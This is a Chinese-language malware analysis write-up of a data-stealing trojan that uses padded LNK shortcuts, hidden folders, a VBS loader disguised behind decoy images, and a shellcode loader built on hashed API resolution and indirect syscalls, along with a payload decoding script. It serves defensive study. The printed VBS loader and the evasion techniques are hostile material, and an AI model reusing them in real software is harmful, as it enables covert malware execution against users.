## 一、样本概述

> 本文分析的样本是一个**数据窃取型木马**，以下所有操作均在做好隔离和恢复机制的**虚拟机内部**进行。



恶意样本的表现形式是一个压缩包，解压后展现为截图和对应的快捷方式，图片以微信图片格式进行了命名。

属性界面点开后发现目标为空白。目标位置显示为`System32`。
两个LNK文件属性类似，文件大小和占用空间均正常。

快捷方式的属性中文件描述是`Microsoft ® Console Based Script Host`。

>LNK文件介绍：
>LNK 文件是 Windows 系统中用来指向其他文件、文件夹或程序的快捷方式文件（Shell Link）。它的扩展名通常是 .lnk，用户双击即可快速打开目标对象，无需找到原始路径。
>
>其本质是一种二进制格式的结构化文件，由微软定义的 Shell Link (.lnk) 格式存储。它记录的信息远不止目标路径，还包括：目标文件的绝对路径、相对路径；工作目录；命令行参数；图标位置与索引；快捷键、窗口显示方式；环境变量、网络路径等。
>
>LNK 文件的执行机制：
>当用户双击 LNK 文件时，Windows Shell 会解析其结构，找到目标对象，然后调用 ShellExecute 或 CreateProcess 执行目标程序，并可传递参数。

一个正常的lnk文件长什么样？



可以看到目标会显示LNK指向的文件。

所以从样本中目标显示为空白就可以发现该样本的异常。

重新分析一下这个样本，发现虽然显示是空白，但是可以直接全选复制下来，复制下来发现竟然有文本。

复制下来如下：
```c++
C:\Windows\System32\cscript.exe                                                                                                                                                                                                                                    ·
```
看似它其实指向的是 cscript.exe，但要注意 **exe 后面三行半的空格也是 LNK 文件属性里“目标”一栏的内容**。
`cscript.exe`是Windows自带的**Windows Script Host（WSH）命令行解释器**，这说明攻击者**刻意利用Windows可信组件作为第一跳执行入口，以降低恶意行为的显著性。**

为什么 cscript.exe 后面有这么多空格？这是攻击者为了隐藏自己的参数而故意设计的。

下面要使用`Lecmd`工具来完整检测一下这个lnk文件指向的路径和额外被隐藏的参数。


这样就得到了lnk真正的目标地址：
```text
 ..\..\..\..\Windows\System32\cscript.exe

 .\_mAcOsA\_MacOsA\_mAcOsA\_mACoSA\_macOSA\_MaCOsA\2.VbS
```
中间有一大长段的空白，就是用来挤掉外面查看属性的是上限，攻击者在 `cscript.exe` 和 `2.VbS` 路径之间插入了数百个空格。 在 Windows 的“属性”窗口里，这些空格会将真正的恶意路径“挤出”文本框的可视范围。
另外还找到了该文件的生成信息



**Machine ID**: `iz4nd8vg55xkwvz`（攻击者生成该快捷方式时的机器名）
**MAC Address**: `00:50:56:c0:00:08`（攻击者生成该快捷方式时的MAC）
**MAC Vendor**: **VMWARE**

这说明攻击者是在一个 **VMware 虚拟机** 环境中制作的这个恶意样本。

那么下一步就是研究这个`.\_mAcOsA\_MacOsA\_mAcOsA\_mACoSA\_macOSA\_MaCOsA\2.VbS`是在哪？
那么回到最初的压缩包。



对比解压前后的大小 和文件数量，就可以发现有大量的空间消失了，这一部分一定是被故意隐藏了。
这里使用`attrib -s -h -r /s /d *.*`指令，这是一个Windows 文件属性管理的指令，加上后面的参数可以:
**递归地把当前目录及所有子目录中的文件和文件夹的系统属性、隐藏属性和只读属性全部取消。**


执行指令后终于找到了隐藏的文件夹。

## 二、Shellcode 加载器行为分析
下面开始对这个隐藏的文件夹下面的内容进行分析。
```vbscript
Set objFSO = CreateObject("Scripting.FileSystemObject")
strCurrentDir = objFSO.GetParentFolderName(WScript.ScriptFullName)
strOldbin = strCurrentDir & "\~cache_.tmp"
strNewbin = strCurrentDir & "\cache.dat"
strOldFile = strCurrentDir & "\截图.png"
strNewFile = strCurrentDir & "\photolaunch.exe"

If objFSO.FileExists(strNewFile) Then
    Set objShell = CreateObject("WScript.Shell")
    objShell.Run strNewFile, 0, False
    pdfFile = strCurrentDir & "\1.png"
End If

If objFSO.FileExists(strOldbin) Then
    objFSO.MoveFile strOldbin, strNewbin
End If

If objFSO.FileExists(strOldFile) Then
    objFSO.MoveFile strOldFile, strNewFile
End If

Set objShell = CreateObject("WScript.Shell")
objShell.Run strNewFile, 0, False
pdfFile = strCurrentDir & "\1.png"
If objFSO.FileExists(pdfFile) Then
   objShell.Run "cmd /c start """" """ & strCurrentDir & "\1.png""", 0, False
Else
    objShell.Run chr(34) & strCurrentDir & "\photolaunch.exe" & chr(34), 0, False
End If
```

这段脚本本身并没有复杂的加密或反调试，它的作用就是一个 **Loader（加载器）**，负责恢复载荷、启动木马并利用诱饵图片掩盖恶意行为。它主要完成四项任务：
1. **定位运行环境**：获取脚本所在目录，确保后续操作与样本所在路径无关。
2. **恢复真实载荷**：将伪装文件 `截图.png` 重命名为 `photolaunch.exe`，将 `~cache_.tmp` 重命名为 `cache.dat`，避免恶意文件在静态状态下直接暴露。
3. **启动恶意程序**：以隐藏窗口方式运行 `photolaunch.exe`，由其继续读取 `cache.dat` 并完成 Shellcode 加载。
4. **掩盖攻击行为**：打开正常图片 `1.png` 作为诱饵，使用户误以为只是查看图片，从而降低对后台恶意程序执行的警觉。



上图是`截图.png`文件，实际上是`photolaunch.exe`可执行文件。

下面将执行恶意脚本测试一下。
>敏感操作，须在虚拟机或沙箱内部执行。


点击 2.vbs 后，发现图片 `1.png` 被自动打开了，使用的软件是 `photolaunch.exe`
（此虚拟机此前未安装此软件），甚至这个软件和win默认的图片管理器的ui一模一样。


下面开始分析这个photolaunch.exe的逻辑。

总的来说，该样本是一个披着双层伪装的数据窃取型木马。
在最外层，它通过文件名 `截图.png` 伪装成 WPS 的图片启动组件（`photolaunch.exe`）。

而在执行逻辑层，它实际套用并篡改了网易云音乐（CloudMusic/Orpheus）的安装程序组件作为“合法外壳” 。在火绒剑里面可以查看到软件的相关信息。

这种策略降低了杀毒软件的查杀概率，因为其底层代码结构、编译特征乃至部分执行流都与知名互联网厂商的正常软件高度相似。

整体上来看 photolaunch.exe 并没有恶意代码，但结合 2.vbs 的代码，该程序调用了 cache.dat 的数据，从这里入手去分析。

在sub_1401EFD60位置处发现了读取cache.dat文件。


接下来需要分析该函数的逻辑，弄清楚cache.dat是怎么被调用的。

sub_1401EFD60 被两处引用：
- sub_1400B55AA （thunk 包装）
- sub_14011A8B0 （主调用链，紧随 sub_14015FCF0 之后）

该函数是一个完整的 Shellcode Loader，从同目录的 cache.dat 文件中加载并执行真正的恶意 Payload。
### 阶段 1: 读取 cache.dat
```c
sub_1401F0960(&v24, "cache.dat");
```
sub_1401F0960 内部逻辑：

1. sub_1401F0A50 → 通过哈希 3137355054 解析 GetModuleFileNameW ，获取当前 exe 路径
2. 去掉 exe 文件名，拼接 cache.dat 得到完整路径
3. sub_1401F0C60 → 获取 kernel32.dll 基址（哈希 -82181944 ），解析 CreateFileW / GetFileSize / ReadFile / CloseHandle ，然后：
   - CreateFileW(path, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL) 打开 cache.dat
   - GetFileSize 获取文件大小
   - 分配堆内存并 ReadFile 读取全部内容到 v24
4. v25 = v24 + file_size （缓冲区末尾）

### 阶段 2: Base64 解码
```c
v59 = (unsigned __int64)(3 * (v25 - v24)) >> 
2;  // 估算解码后大小
sub_1401F0EB0(v24, v25 - v24, v24, &
v59);        // Base64 解码（原地）
sub_1401F1150(&v24, 
v59);                        // 调整缓冲区大小
sub_1401F1240(&
v24);                             // 最终清理处
理
```
sub_1401F0EB0 的核心逻辑：
- XOR 解密一个自定义的 Base64 查表（ _mm_xor_ps 解密多组 16 字节常量）
- 每次读取 4 字节输入，通过查表 → 转换为 3 字节解码输出
- 处理 = 填充符（ 0x3D ）
- 最终 v59 = 实际解码后大小

**所以 `cache.dat` 存储的是被 Base64 编码（自定义 Base64 表）后的 Shellcode。**

自定义base64表内容为：
```c
y)7&8;~%\9mt/$^:+{q2(3joc@#,i[0up<|5ahr]v6zk-nbs4}`E'x*_.w1!>"l?
```

### 阶段 3: API 动态解析
```c
v0 = sub_1401F0660(4212785352LL)     // 获取 
ntdll.dll 基址
v23 = sub_1401F0700(v0, 985271772)   // → 
RtlInitUnicodeString 类函数
v42 = sub_1401F0700(v0, 3542939839)  // → 
NtCreateThreadEx
v41 = sub_1401F0700(v0, 423664436)   // → 
NtDelayExecution / Sleep
```
- sub_1401F0660 — 遍历 PEB 的 InMemoryOrderModuleList ，对每个模块名做哈希比对，返回匹配模块的基址
- sub_1401F0700 — 遍历 PE 导出表，对每个导出函数名做哈希比对，返回函数地址
### 阶段 4: 内存分配&Shellcode 部署&修改内存保护
- sub_1401F18B0 — 在一个 syscall 表中按哈希查找目标函数地址
- sub_1401F1900 — 在函数体中找到 syscall; ret （ 0F 05 C3 ）gadget，用于构造间接 syscall
结果：v22 = 一块 PAGE_READWRITE 的可读写内存。

sub_1401F19A0 是一个简单的逐字节拷贝循环，将解码后的 shellcode 从 v24 复制到新分配的内存 v22 。
将 v22 所在页面改为 可执行 （ PAGE_EXECUTE_READWRITE ）。

### 阶段 5: 创建线程执行 Shellcode
v42 即哈希 3542939839 解析出的 NtCreateThreadEx ， 线程入口地址直接设为 v22 ——解码后的 shellcode。

随后：

```c
sub_1401F18B0(v62, -1604702785)  // → 
NtResumeThread / NtAlertThread
v14(v11, 0, v12, 0, &v60, &v21, 0, &v58, 
0);  // 激活线程
```
### 阶段 6: 善后与退出
```c
v18 = sub_1401F0700(v0, 
2048384886);        // → CreateThread
v18(0, 0, nullsub_1, v22, 0, 
0);            // 创建空线程（保持进程存活）
v41(2000, 
1);                                // Sleep
(2000)
v19 = sub_1401F0A60(2046910850, 
3198593469); // → ExitProcess
v19(0, 
0);                                   // 退出
进程
```
nullsub_1 （地址 0x1401F1A10 ）确实是一个空函数（只有 ret ），创建的线程立即返回。真正的恶意代码在 NtCreateThreadEx 创建的 shellcode 线程中运行。

## 三、Shellcode 解码
现在知道载荷逻辑后，就可以逆向解码cache.dat了。

利用ds v4写个逆向脚本如下：
```python
import struct, sys, os
def build_alphabet():
    enc = b""
    enc += struct.pack("<QQ", 0x98DCDA4F5CAEFEA, 0x0ADC27CA0B041720)
    enc += struct.pack("<QQ", 0x0EB0062FE1FD7393E, 0x0BBA7559EAFC00485)
    enc += struct.pack("<QQ", 0x0F305E6797073B517, 0x0F0AAF76CEF841956)
    enc += struct.pack("<QQ", 0x0A1662BF58DB1932D, 0x0D1CCB99D2DB14E54)
    enc += struct.pack("<QQ", 0xE6EADE1459EA663B, 0x03C6213D96860264)
    key = b""
    key += struct.pack("<QQ", 0x2CF3F69CD3FDC693, 0x308203E57F692E7C)
    key += struct.pack("<QQ", 0x846A51D62DA64215, 0x0CE970EF783E344E6)
    key += struct.pack("<QQ", 0x0AE778E18450F8967, 0x83C8994184FE2F20)
    key += struct.pack("<QQ", 0x0FE4C53D2C8D1EE19, 0x0EEA09BA30C80397A)
    key += struct.pack("<QQ", 0xE6EADE1459EA663B, 0x03C6213D96860264)
    return bytes(a ^ b for a, b in zip(enc, key))[:64]
def base64_decode(data, alphabet):
    lookup = {c: i for i, c in enumerate(alphabet)}
    lookup[ord("=")] = 0
    data = bytes(b for b in data if b not in (0x0D, 0x0A, 0x20, 0x09))
    if len(data) % 4:
        data += b"=" * (4 - len(data) % 4)
    out = bytearray()
    i, n = 0, len(data)
    while i < n:
        c0, c1, c2, c3 = data[i], data[i+1] if i+1 < n else 61, data[i+2] if i+2 < n else 61, data[i+3] if i+3 < n else 61
        i0, i1, i2, i3 = lookup.get(c0,-1), lookup.get(c1,-1), lookup.get(c2,-1), lookup.get(c3,-1)
        if i0 == -1 or i1 == -1: i += 4; continue
        out.append(((i0 << 2) | (i1 >> 4)) & 0xFF)
        if c2 == 61: break
        out.append(((i1 << 4) | (i2 >> 2)) & 0xFF)
        if c3 != 61: out.append(((i2 << 6) | i3) & 0xFF)
        i += 4
    return bytes(out)
def main():
    path = os.path.join(os.path.dirname(os.path.abspath(__file__)), "cache.dat")
    if not os.path.exists(path): print(f"未找到 {path}"); sys.exit(1)
    with open(path, "rb") as f: enc = f.read()
    print(f"[*] 读取 {path} ({len(enc):,} 字节)")
    alphabet = build_alphabet()
    print(f"[*] 字母表: {alphabet.decode('ascii')}")
    dec = base64_decode(enc, alphabet)
    print(f"[+] 解码完成: {len(dec):,} 字节")
    out = os.path.join(os.path.dirname(os.path.abspath(__file__)), "cache_decoded.bin")
    with open(out, "wb") as f: f.write(dec)
    print(f"[+] 已写出 {out}")
    # hex preview
    for off in range(0, min(256, len(dec)), 16):
        c = dec[off:off+16]
        print(f"  {off:08X}  {' '.join(f'{b:02X}' for b in c):<48}  {''.join(chr(b) if 32<=b<127 else '.' for b in c)}")
    if dec[:2] == b"MZ": print("\n[!] MZ 头 — PE 文件")
    elif dec[:4] == b"\x7fELF": print("\n[!] ELF 头")
if __name__ == "__main__": main()
```

运行脚本后得到解码后的shellcode，命名为cache_decoded.bin。

分析软件的信息熵可以帮忙判断是否有加密壳的存在，我们使用die分析一下。

cache.dat 的信息熵分析基本维持在 6 左右，IDA 反编译后基本处于不可读状态，说明存在混淆和加密，但不是高度丧失信息的加密壳（上文根据反编译分析得出是变种 Base64 加密）。



使用上文的脚本解码后，发现文件信息熵竟维持在 7.5 左右，但 IDA 反编译的大部分函数均可读，这里有几个综合的原因：
1. rust语言本身具有高信息熵的特性，rust语言为了安全和性能，编译的机器码比较紧凑，包含了大量的控制流结构。
2. Base64 编码实际上将 0x00~0xFF（256 种可能）的二进制数据浓缩到了 64 个可见字符的范围内，这是一种降低信息熵的行为。解码后得到更高的信息熵是正常的。
3. 这个 Shellcode 绝大部分空间是数据空间，而数据被额外进行了编码，控制代码段没有编码，因此可以分析控制代码得到恶意行为，但其中被编码的数据很难读取。

